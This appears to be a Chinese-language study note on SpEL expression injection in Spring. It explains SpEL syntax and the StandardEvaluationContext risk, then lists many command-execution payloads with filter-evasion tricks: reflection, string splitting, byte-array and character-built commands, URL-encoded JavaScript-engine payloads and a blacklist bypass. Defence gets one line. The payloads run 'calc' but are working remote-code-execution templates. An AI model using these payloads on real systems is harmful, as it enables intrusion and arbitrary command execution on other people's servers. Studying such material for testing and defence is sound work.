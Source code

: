 # SpEL表达式注入

## 前言

具体参考https://www.mi1k7ea.com/2020/01/10/SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93



## 定界符

SpEL使用`#{}`作为定界符，所有在大括号中的字符都将被认为是SpEL表达式，在其中可以使用SpEL运算符、变量、引用bean及其属性和方法等。

- `#{}`就是SpEL的定界符，用于指明内容未SpEL表达式并执行；
- `${}`主要用于加载外部属性文件中的值；
- 两者可以混合使用，但是必须`#{}`在外面，`${}`在里面，如`#{'${}'}`，注意单引号是字符串类型才添加的；

## T表达式

在SpEL表达式中，使用`T(Type)`运算符会调用类的作用域和方法。

使用`T(Type)`来表示java.lang.Class实例，Type必须是类全限定名，但”java.lang”包除外，因为SpEL已经内置了该包，即该包下的类可以不指定具体的包名；使用类类型表达式还可以进行访问类静态方法和类静态字段。

```java
T(Runtime).getRuntime().exec('calc')
```



## Expression用法

SpEL的用法有三种形式，一种是在注解@Value中；一种是XML配置；最后一种是在代码块中使用Expression。

> SpEL 在求表达式值时一般分为四步，其中第三步可选：首先构造一个解析器，其次解析器解析字符串表达式，在此构造上下文，最后根据上下文得到表达式运算后的值。

简单例子：

```java
        ExpressionParser parser = new SpelExpressionParser();
        String poc = "T(Runtime).getRuntime().exec('calc')";
        EvaluationContext context = new StandardEvaluationContext();
        parser.parseExpression(poc).getValue(context);
```

### 类实例化

类实例化同样使用Java关键字new，类名必须是全限定名，但java.lang包内的类型除外。

```java
String poc = "new java.util.Date()"
```

## 变量定义和引用

在SpEL表达式中，变量定义通过EvaluationContext类的setVariable(variableName, value)函数来实现；在表达式中使用”#variableName”来引用；除了引用自定义变量，SpEL还允许引用根对象及当前上下文对象：

- `#this`：使用当前正在计算的上下文；
- `#root`：引用容器的root对象；

## SpEL表达式注入漏洞

SimpleEvaluationContext和StandardEvaluationContext是SpEL提供的两个EvaluationContext：

- SimpleEvaluationContext - 针对不需要SpEL语言语法的全部范围并且应该受到有意限制的表达式类别，公开SpEL语言特性和配置选项的子集。
- StandardEvaluationContext - 公开全套SpEL语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

SimpleEvaluationContext旨在仅支持SpEL语言语法的一个子集，不包括 Java类型引用、构造函数和bean引用；而StandardEvaluationContext是支持全部SpEL语法的。

默认使用`StandardEvaluationContext `

```java
        ExpressionParser parser = new SpelExpressionParser();
        String poc = "T(Runtime).getRuntime().exec('calc')";
        EvaluationContext context = new StandardEvaluationContext();
        parser.parseExpression(poc).getValue(context);
```

一些POC：

```java
// PoC原型

// Runtime
T(java.lang.Runtime).getRuntime().exec("calc")
T(Runtime).getRuntime().exec("calc")

// ProcessBuilder
new java.lang.ProcessBuilder({'calc'}).start()
new ProcessBuilder({'calc'}).start()

******************************************************************************
// Bypass技巧

// 反射调用
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 反射调用+字符串拼接，绕过如javacon题目中的正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part1
// byte数组内容的生成后面有脚本
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part2
// byte数组内容的生成后面有脚本
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))

// JavaScript引擎通用PoC
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)

// JavaScript引擎+反射调用
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)

// JavaScript引擎+URL编码
// 其中URL编码内容为：
// 不加最后的getInputStream()也行，因为弹计算器不需要回显
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)

// 黑名单过滤".getClass("，可利用数组的方式绕过，还未测试成功
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')

// JDK9新增的shell，还未测试
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

## 防御

使用`SimpleEvaluationContext`。



